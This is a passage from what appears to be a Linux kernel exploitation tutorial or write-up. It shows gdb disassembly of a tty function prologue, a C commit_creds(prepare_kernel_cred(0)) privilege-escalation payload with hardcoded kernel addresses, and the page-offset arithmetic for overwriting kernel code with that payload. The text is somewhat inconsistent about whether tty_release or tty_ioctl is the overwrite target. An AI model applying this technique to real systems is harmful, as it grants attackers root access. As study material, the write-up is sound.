 The close() call crashes the kernel indeed in trying to execute a bunch of 0x41. But the crash does not actually 
appear in tty_release as expected, but in `tty_ioctl`. So this function seems to be called before tty_release. Whatever, 
let's overwrite tty_ioctl.

# Replacing tty_ioctl frame with a LPE function frame

First, it is necessary to ensure that it is truly
the tty_release function frame that starts at 0xffffffff813ee0a0, and not another pointer, otherwise the shellcode would be
significantly different. So we dump the kernel binary and read at address 0xffffffff813ee0a0:

```
(gdb) x/10gi 0xffffffff813ee0a0
   0xffffffff813ee0a0:	push   rbp
   0xffffffff813ee0a1:	mov    rdx,0xffffffff81a67880
   0xffffffff813ee0a8:	mov    rbp,rsp
   0xffffffff813ee0ab:	push   r15
   0xffffffff813ee0ad:	push   r14
   0xffffffff813ee0af:	push   r13
   0xffffffff813ee0b1:	push   r12
   0xffffffff813ee0b3:	mov    r12,rsi
   0xffffffff813ee0b6:	push   rbx
   0xffffffff813ee0b7:	sub    rsp,0x30
   ...
```

This is function prologue, so this address is used in a `call 0xffffffff813ee0a0` in kernel space, `this will transfer 
control to the target address, and begin execution there. So, overwriting the tty_ioctl frame with another one will be 
how we get code execution.`
The classic `commit_creds(prepare_kernel_cred(0))` should work.

```c
#define COMMIT_CREDS 0xffffffff8107ab70LL
#define PREPARE_KERNEL_CRED 0xffffffff8107af00LL
int __attribute__((regparm(3))) kernel_payload() {
  _commit_creds commit_creds = (_commit_creds)COMMIT_CREDS;
  _prepare_kernel_cred prepare_kernel_cred = (_prepare_kernel_cred)PREPARE_KERNEL_CRED;
  commit_creds(prepare_kernel_cred(0));
  return -1;
}
```

Something is important here, the overwrite function signature has to match the one that we overwrite. The overwrite has 
respect the stack layout. Furthermore, `the function has to return -1`.

## Frame overwriting

As a reminder, the size of a memory page on x64 is 4096 = 0x1000. Applied to the overwriting target page, we can find that 
the start address of the page we overwrite is `0xffffffff813ee0a0 ^ (0xffffffff813ee0a0 & 0xFFF) = 0xffffffff813ee000`
, and the end address is `0xffffffff813ee000 + 0xFFF`. Logically, it comes that the target function is located at offset
`0xffffffff813ee0a0 & 0xFFF = 0x0a0` in the page. So, the buffer given to the write function will be constructed of
0xa0 first junk bytes, from index 0 to 0x9F. At 0xa0, we copy the function frame of the privilege escalation payload.
What comes between the end of the function frame, and the end of the page does not matter.
